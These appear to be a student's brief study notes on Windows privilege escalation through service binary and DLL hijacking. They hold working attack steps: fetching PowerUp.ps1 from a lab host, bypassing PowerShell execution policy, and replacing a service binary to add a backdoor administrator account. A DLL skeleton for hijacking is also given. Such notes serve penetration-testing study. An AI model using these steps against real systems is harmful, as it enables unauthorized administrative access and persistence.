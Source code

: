 we shutdown a service as follows:
```
shutdown /r /t 0 
```

can use Powerup.ps1 to detect misconfigurations
use -ep to start powershell with execution bypass
```
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

PowerUp also provides us an AbuseFunction, which is a built-in function to replace the binary and, if we have sufficient permissions, restart it. The default behavior is to create a new local user called john with the password Password123! and add it to the local Administrators group.
```
Install-ServiceBinary -Name 'mysql'
```

### Service DLL Hacking
Can use Process Monitor to display info about process and detect missing DLLs

Restart service in powershell
```
Restart-Service BetaService
```

get path windows
```
$env:path
```

basic microsoft dll
```
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
